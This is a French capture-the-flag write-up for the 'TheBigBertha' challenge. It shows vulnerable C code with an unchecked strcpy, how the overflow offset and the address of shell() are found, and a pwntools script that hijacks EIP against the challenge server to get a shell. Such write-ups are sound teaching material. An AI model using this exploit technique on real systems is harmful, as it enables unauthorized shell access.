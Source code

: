 
# Write du challenge TheBigBertha


Sur ce challenge, nous avons un cas un peu plus poussé pour apprendre les buffers overflows.
Nous avons le code suivant:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>


void shell(){

    setreuid(geteuid(),geteuid());
    system("/bin/bash");
}


void foo(char *msg){

    char buf[64];
    puts("Delta Charlie. Ordre bien reçu.");
    strcpy(buf,msg);
    printf("La cible est : %s\n", buf);
}

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(int argc, char **argv)
{
    init();
    puts("Entrez la cible :");
    char input[512];
    fgets(input, 511, stdin);
    if(strlen(input) > 1)
    {
        foo(input);
    }
    else{
 	puts("Veuillez entrer une chaine de caractères.");
    }

    printf("Programme is exiting normally ! \n");
    return 0;
}
```

Première chose à voir, nous avons une fonction qui fait apparaitre un shell, intéressant...
Deuxième chose à voir, nous avons une fonction foo() qui prend une entrée utilisateur MAIS qui ne vérifie pas la taille de l'entrée !
Le message de l'utilisateur "msg" est directement copié en mémoire avec la fonction standard C strcpy().
Notre faille est donc ici ! Voici le plan de bataille:
- Chercher à Overwrite le pointeur d'instruction (EIP) pour exécuter notre fonction shell().
- Trouver l'adresse de la fonction shell() dans le programme.
- Construire un payload avec pwntools !

**ETAPE 1:** Pour trouver de manière efficace le moment où on contrôle l'EIP, on peut utiliser la fonction "pattern create" disponible avec pwndbg, gef, ou gdb-peda.
Cette fonction permet de créer une grande chaine de caractère ce qui nous permettra de savoir quand on overwrite. Exemple:

$> pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

$> r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
On voit cette ligne: EIP: 0x41344141 ('AA4A') donc on fait:

$> pattern offset AA4A
76

Dans notre cas, on trouve l'overwrite à 76.

**Etape 2:** Maintenant que nous avons l'offset à partir duquel nous pouvons controler EIP, nous allons chercher l'adresse de la fonction shell(). Cela peut se faire tout simplement dans un debugger avec la commande:
gdb-peda $> disass shell:
0x080491b6 <+0>:     push   ebp => Donc la fonction shell commence à 0x080491b6 

**Etape 3:** Kaboom !
Voici comment construire un payload en python avec pwntools:

```
from pwn import *

p = remote("challenge.nbctf.fr",1334) #Connexion au challenge

rop = b'A' * 76 #On créer notre chaine de caractère qui va provoquer un overflow.
rop += p32(0x080491b6) #On va chercher dans le binaire l'adresse de shell (Fonction très pratique de pwntools, s'il y a des symbols)

p.send(rop) #On envoit notre payload au programme
p.interactive() #On ouvre une session interactive pour aller lire le fichier password.txt

```



